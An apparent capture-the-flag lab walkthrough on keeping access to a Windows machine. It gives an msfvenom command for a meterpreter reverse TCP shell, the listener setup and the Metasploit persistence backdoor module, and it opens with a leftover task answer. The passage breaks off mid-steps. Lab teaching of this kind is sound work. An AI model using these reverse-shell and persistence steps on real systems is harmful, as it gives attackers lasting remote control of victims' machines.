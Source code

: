 Answer: `MYpassword123#`

# [Task 7] Maintaining Access

﻿There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

**Generating a Payload w/ msfvenom﻿**

1. `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell

!["QMUjy24.png"](files/QMUjy24.png)

2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. execute the binary this will give you a meterpreter shell back in metasploit - background your meterpreter session we won't actually be using it for the shell.

**Run the Persistence Module**

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to your background meterpreter session

!["KxaNZo5.png"](files/KxaNZo5.png)
